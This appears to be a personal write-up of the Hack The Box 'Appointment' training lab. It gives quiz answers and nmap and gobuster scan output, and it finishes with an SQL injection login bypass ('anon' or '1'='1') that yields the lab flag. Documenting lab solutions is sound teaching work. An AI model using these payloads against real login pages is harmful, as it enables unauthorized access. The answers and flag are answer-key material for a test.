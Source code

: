 Connect the VPN, spawn the VM.<br>
10.129.223.238

### TASK 1

What does the acronym SQL stand for?

Answer: Structured Query Language

### TASK 2

What is one of the most common type of SQL vulnerabilities?

Answer: SQL Injection

### TASK 3

What does PII stand for?

Answer: Personally Identifiable Information

### TASK 4

What does the OWASP Top 10 list name the classification for this vulnerability?

https://owasp.org/www-project-top-ten/
https://owasp.org/Top10/A03_2021-Injection/

Answer: A03:2021-Injection (its case sensitive)

### TASK 5

What service and version are running on port 80 of the target?

```
# nmap -sS 10.129.223.238 -p80 -sV -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-02 17:26 EDT
Nmap scan report for 10.129.223.238
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.16 seconds
```

Answer: Apache httpd 2.4.38 ((Debian))

### TASK 6

What is the standard port used for the HTTPS protocol?

Answer: 443

### Task 7

What is one luck-based method of exploiting login pages?

Answer: brute-forcing

### TASK 8

What is a folder called in web-application terminology?

Answer: directory

### TASK 9

What response code is given for "Not Found" errors?

404

### TASK 10

What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

```
# gobuster --help
Usage:
  gobuster [command]

Available Commands:
  dir         Uses directory/file enumeration mode
  dns         Uses DNS subdomain enumeration mode
  fuzz        Uses fuzzing mode
  help        Help about any command
  s3          Uses aws bucket enumeration mode
  version     shows the current version
  vhost       Uses VHOST enumeration mode

Flags:
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -h, --help              help for gobuster
      --no-error          Don't display errors
  -z, --no-progress       Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -p, --pattern string    File containing replacement patterns
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist

Use "gobuster [command] --help" for more information about a command.
```

Answer: dir

### TASK 11

What symbol do we use to comment out parts of the code?

Answer: #


### SUBMIT FLAG

Submit root flag

```
# gobuster dir -u 10.129.223.238 -x php --wordlist /usr/share/wordlists/dirb/small.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.223.238
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/10/02 17:32:54 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 314] [--> http://10.129.223.238/css/]
/images               (Status: 301) [Size: 317] [--> http://10.129.223.238/images/]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 313] [--> http://10.129.223.238/js/]

===============================================================
2022/10/02 17:33:39 Finished
===============================================================
```


Using https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass

I first tried
```
anon' or '1'='1
```
and the same for the password and it worked.

I also tested ```
```
'-'
```

And it worked as well.

![[hackthebox/HTB-Appointment/image1.png]]

![[hackthebox/HTB-Appointment/image2.png]]

Congratulations!
Your flag is: e3d0796d002a446c0e622226f42e9672